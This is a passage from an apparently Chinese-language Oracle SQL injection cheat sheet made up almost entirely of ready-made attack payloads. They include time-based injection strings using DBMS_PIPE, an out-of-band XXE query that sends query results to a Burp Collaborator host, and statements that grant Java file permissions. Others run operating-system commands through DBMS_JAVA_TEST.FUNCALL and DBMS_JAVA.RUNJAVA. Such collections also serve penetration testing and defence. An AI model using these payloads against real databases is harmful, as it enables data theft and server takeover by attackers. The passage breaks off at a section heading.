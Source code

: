 ## Oracle SQL基于时间的注入

```sql
AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME]) 
AND 1337=(CASE WHEN (1=1) THEN DBMS_PIPE.RECEIVE_MESSAGE('RANDSTR',10) ELSE 1337 END)
```

## Oracle SQL带外注入

```sql
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT YOUR-QUERY-HERE)||'.BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

## Oracle SQL命令执行

* [quentinhardy/odat](https://github.com/quentinhardy/odat) - ODAT（Oracle数据库攻击工具）

### Oracle Java执行

* 列出Java权限

    ```sql
    select * from dba_java_policy
    select * from user_java_policy
    ```

* 授予权限

    ```sql
    exec dbms_java.grant_permission('SCOTT', 'SYS:java.io.FilePermission','<<ALL FILES>>','execute');
    exec dbms_java.grant_permission('SCOTT','SYS:java.lang.RuntimePermission', 'writeFileDescriptor', '');
    exec dbms_java.grant_permission('SCOTT','SYS:java.lang.RuntimePermission', 'readFileDescriptor', '');
    ```

* 执行命令
    * 10g R2, 11g R1和R2: `DBMS_JAVA_TEST.FUNCALL()`

        ```sql
        SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','c:\\windows\\system32\\cmd.exe','/c', 'dir >c:\test.txt') FROM DUAL
        SELECT DBMS_JAVA_TEST.FUNCALL('oracle/aurora/util/Wrapper','main','/bin/bash','-c','/bin/ls>/tmp/OUT2.LST') from dual
        ```

    * 11g R1和R2: `DBMS_JAVA.RUNJAVA()`

        ```sql
        SELECT DBMS_JAVA.RUNJAVA('oracle/aurora/util/Wrapper /bin/bash -c /bin/ls>/tmp/OUT.LST') FROM DUAL
        ```

### Oracle Java类
